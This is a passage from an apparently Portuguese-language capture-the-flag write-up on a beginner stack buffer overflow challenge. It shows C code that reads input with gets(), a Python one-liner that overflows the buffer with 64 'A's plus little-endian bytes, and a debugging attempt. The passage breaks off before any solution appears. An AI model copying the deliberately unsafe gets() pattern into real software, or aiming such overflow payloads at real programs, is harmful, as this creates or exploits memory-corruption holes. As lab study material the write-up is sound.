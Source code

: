 ```c

  estrutura.x = 0;
  gets(estrutura.buffer);

  if (estrutura.x == 0x456889) {
    puts("Parabéns você modificou a variavel x!");
    system("cat ./flag.txt");
  } else {
    puts(
        "Opa, a variável não foi modificada, keep trying!");
  }

  exit(0);
}

```

O código é semelhante ao do primeiro desafio, mas com um valor específico em x, eu compilei ele da mesma forma que compilei o primeiro

```
$ gcc -o bof2 bof102.c
```

E tentei executar um payload semelhante, trocando só a informação final, lembrando que os bytes são passados em ordem inversa(little endian)

```
$ python3 -c "print('A' * 64 + '\x89\x68\x45')" | ./bof2
Bem-vindo ao segundo desafio de PWN, estude buffer overflow!

Opa, a variável não foi modificada, keep trying!
```

Não saiu como esperado, então usei o edb-debugger para verificar o que estava acontecendo na stack

```
$  python3 -c "print('A' * 64 + '\x89\x68\x45')" | edb --run ./bof2
```

![descrição do segundo desafio de pwn](./images/bof2_registers.png)
